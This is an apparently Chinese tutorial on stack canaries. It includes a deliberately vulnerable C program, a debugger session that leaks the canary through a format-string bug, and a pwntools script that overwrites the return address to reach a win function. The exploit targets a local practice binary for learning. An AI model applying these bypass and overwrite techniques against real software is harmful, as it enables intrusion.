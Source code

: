 ```yaml
---
title: 'Canaries'
date: '2023-08-21'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '防御缓冲区溢出'
authors: ['default']
---
```


Canary 的意思是金丝雀，源于英国矿井工人用来探查井下气体是否有毒的金丝雀笼子。
工人们每次下井都会带上一只金丝雀。如果井下的气体有毒，金丝雀由于对毒性敏感
就会停止鸣叫甚至死亡，从而使工人们得到预警。

Canary 的设计非常简单——在函数的开头，一个随机值被放置在栈上，作为检测用的保护值。
在程序执行 `ret` 之前，程序会检查该值是否被修改过：如果没有被改变，则说明没有发生
缓冲区溢出；反之，说明发生了栈溢出，程序会中止。

这种通过检查保护值的手段，可以缓解栈溢出的攻击行为。因为保护值的位置在保存的基
地址和返回地址之间，是栈溢出的常见目标位置。攻击者无法跳过保护值直接修改返回
地址等关键数据。这样简单有效的检测机制，可以大大增强程序的安全性。

:::info
在 Linux 上，Canary 设计为以 `\x00` 结尾。本意是为了保证 Canary 可以截断字符串。
如果你在用输出函数的时候处理错了字符串，导致打印的字符串超出了 Canary 的位置，
这个 `\x00` 可以终止字符串的输出，防止越界访问 Canary 的值；同时空字节 `\x00` 也
会中断字符串打印，不会错误打印后面栈上的内容。但是这也使它很容易被识别出来：
攻击者可以通过输出一个可能的 Canary 值，并检验末尾是否为 `\x00` 来判断真正的
Canary 是多少。
:::

## 0x01 绕过 Canary

有两种常用的方法可以绕过 Canary。

### 1x01 泄漏 Canary

获取 Canary 的值的方法因程序而异，没有固定的万能方式。但主要的目的是获取它的值。
最简单的方法是，如果程序存在格式化字符串漏洞的话，可以利用这个漏洞来泄漏栈上的
内容。因为 Canary 和其它局部变量一样，位于栈上。

```c:source.c
#include <stdio.h>

void vuln() {
  char buffer[64];

  puts("Leak me");
  gets(buffer);

  printf(buffer);
  puts("");

  puts("Overflow me");
  gets(buffer);
}

int main() {
  vuln();
}

void win() {
  puts("You won!");
}
```

#### 2x01 32-bit

LINK

首先，让我们检查一下是否有 Canary：

```
$ pwn checksec vuln-32
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

现在我们需要计算 Canary 所在的偏移量，为此我们将使用 pwndbg。

```
$ pwndbg vuln-32

$ b *0x080491d7
$ r
Leak me
%p

Breakpoint 1, 0x080491d7 in vuln ()
[...]
$ x/24wx $esp
0xffffd6e0:	0xffffd6fc	0x00000001	0xf7ffda20	0x0804919e
0xffffd6f0:	0x00000000	0xffffd9ab	0x00000002	0x00007025
0xffffd700:	0xf7ffcfd8	0x00000028	0x00000000	0xffffdfcd
0xffffd710:	0xf7fc6570	0xf7fc6000	0x00000000	0x00000000
0xffffd720:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd730:	0xffffffff	0xf7c0c850	0xf7fc0380	0x437aa500
```

最后一个输出的值是 Canary。我们可以从以下几点来判断：

1. 它距离缓冲区开始的地址约 64 字节，这很接近缓冲区末尾的位置。
2. 它的末尾是 `\x00` ，和以 `ff` 和 `f7` 开头的 libc 库地址不同，看起来非常随机。

从缓冲区开始，我们大约输出了 24 个地址，然后可以找到 Canary 的值。所以我们可以
在它前后各输出一个地址，来确定 Canary 的位置。

```
$ ./vuln-32
Leak me
%23$p %24$p %25$p
0x4c1e00 (nil) 0xf7e43e34
```

似乎是 `%23$p`。

*注：Canary 对于每个新进程都是随机的，因此不会相同。*

现在让我们用 pwntools 自动抓取 Canary：

```python:canary.py
from pwn import *

context.log_level = 'debug'

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')
```

```
$ python exp.py
[+] Starting local process './vuln-32': pid 10042
[*] Leak me
[+] Canary: 0x143e3e00
```

现在剩下的就是计算出 Canary 之前的偏移量，然后计算出 Canary 之后到返回地址的偏移量。

```
$ pwndbg vuln-32
$ b *0x080491d7
$ r
Leak me
%23$p

Breakpoint 1, 0x080491d7 in vuln ()
[...]
$ x/24wx $esp
0xffffd6e0:	0xffffd6fc	0x00000001	0xf7ffda20	0x0804919e
0xffffd6f0:	0x00000000	0xffffd9ab	0x00000002	0x24333225
0xffffd700:	0xf7ff0070	0x00000028	0x00000000	0xffffdfcd
0xffffd710:	0xf7fc6570	0xf7fc6000	0x00000000	0x00000000
0xffffd720:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd730:	0xffffffff	0xf7c0c850	0xf7fc0380	0xf5dafb00
```

我们看到 Canary 位于 `0xffffd73c` 。稍后，假设返回地址位于 `0xffffd74c` 。让我们
在下一个 `gets()` 之后中断并检查我们用什么值覆盖它。

```
$ b *0x0804920f
$ c
Continuing.
0x915d8a00
Overflow me
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Breakpoint 2, 0x0804920f in vuln ()
[...]
$ x/20wx 0xffffd73c
0xffffd73c:	0x61616171	0x61616172	0x61616173	0x61616174
0xffffd74c:	0x61616175	0x61616176	0x61616177	0x61616178
```

现在，我们可以检查 Canary 和 EIP 偏移量：

```
$ cyclic -l 0x61616171
Finding cyclic pattern of 4 bytes: b'qaaa' (hex: 0x71616161)
Found at offset 64
$ cyclic -l 0x61616175
Finding cyclic pattern of 4 bytes: b'uaaa' (hex: 0x75616161)
Found at offset 80
```

返回地址是 Canary 开始后的 16 个字节，因此是 Canary 后的 12 个字节。

```python:exp.py
from pwn import *

context.log_level = 'debug'

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary)  # 用 Canary 值覆盖 Canary 以不触发检测
payload += b'A' * 12    # Padding 到返回地址
payload += p32(0x08049245)

p.sendline(payload)

p.interactive()
```

#### 2x02 64-bit

方法同上，只是变成了 64-bit。

:::info
只要注意：在 64-bit 中，字符串首先进入相关寄存器，每个地址可以容纳 8 字节，
因此偏移量可能不同。
:::

LINK

### 1x02 暴力破解 Canary

这在 32-bit 上是可能的，有时也是不可避免的。但在 64-bit 上这种方法是不可行的。
因为 32-bit 的 Canary 值通常为 4 字节，爆破遍历空间较小，可行性高；但 64-bit
扩展到 8 字节，遍历空间极大，爆破难度大幅提高。

总体思路是通过大量运行目标进程，每次使用随机 Canary 值来碰撞正确的 Canary 值。
但需要明确的指示来判断爆破是否成功，例如出现已知明文 `flag{` 。这需要大量时间。

